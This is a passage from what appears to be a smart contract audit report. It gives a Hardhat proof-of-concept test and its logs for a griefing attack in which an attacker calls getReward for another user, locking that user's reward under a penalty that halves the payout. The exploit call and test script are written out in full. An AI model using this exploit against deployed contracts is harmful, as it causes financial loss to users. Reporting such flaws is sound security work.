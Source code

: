 ```typescript

    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails);
    console.log("The pending reward of the user1: ", tokenIdToLockDetails.pending);

    console.log("The user1 call the claim function of the vestZeroNFT contract to claim tokenID of Ant"); 
    
    console.log("Zero balance of user1 after griefing attack", await zero.balanceOf(user1.address));
    console.log("Current timestamp", await helpers.time.latest());
   console.log("Mine 7776001 blocks with interval of 1 second"); 
    await helpers.mine(7776001, { interval: 1 });
    console.log("Current timestamp", await helpers.time.latest());
    zeroBalance = await zero.balanceOf(user1.address);
    console.log("Zero balance of user1: ", await zero.balanceOf(user1.address));
    await vest.connect(user1).claim(lastTokenId); 
    console.log("Zero balance of user1 after griefing attack", await zero.balanceOf(user1.address));
    console.log("Zero amout receive after claim ", await zero.balanceOf(user1.address) - zeroBalance);
    console.log("Zero balance of vestZeroNFT after contract", await zero.balanceOf(vest.target));
    console.log("The unclaimed amount of the tokenID", await vest.unclaimed(lastTokenId));


  });
```

In the above POC, to execute the attack, the hacker call the getReward for user1 and token is zero. 
By doing so, the reward of user1 is locked with penalty. 


```typescript
await aTokenGauge.connect(attacker).getReward(user1.address, zero);
```

When user1 claim after LinearDuration is 3 months, user1 suffer the penalty and get only 50% of the reward. 

Test log: 
Full Test Log: https://drive.google.com/file/d/1xvXr5S4uS3m34nZgfiKVEprcTk7sEJAY/view?usp=sharing

```
Create the pre-condition setup for the griefing attack
Atoken balance of user1:  0n
Zero balance of user1:  99999999980000000000000000000n
Deposit to get the Weth token
The Weth balance of the user1:  0n
Mint the Weth token for the user1
The Weth balance of user1:  10000000000000000000000n
Approve the pool to spend the Weth token of the user1
Deposit the Weth token to the pool
The Weth balance of user1:  0n
The Atoken balance of user1:  10000000000000000000000n
Notify the reward amount to the poolVoter contract
totalWeight:  0n
after vote totalWeight:  19996876902587519025n
length of pools: 0n
zero balance of PoolVoter:  0n
Step: the Deployer (the owner of Zero token) approve the PoolVoter to spend 100 ZERO token
After notifyRewardAmout zero balance of PoolVoter:  100000000000000000000n
The claimable reward of gauge:  0n
Call the updateFor gauge to update the claimable reward for the gauge
Distribution of the reward to the gauge
Before distribute zero balance of aTokenGauge:  0n
Before distribute zero balance of varTokenGauge:  0n
After distribute zero balance of aTokenGauge:  24999999999999999998n
```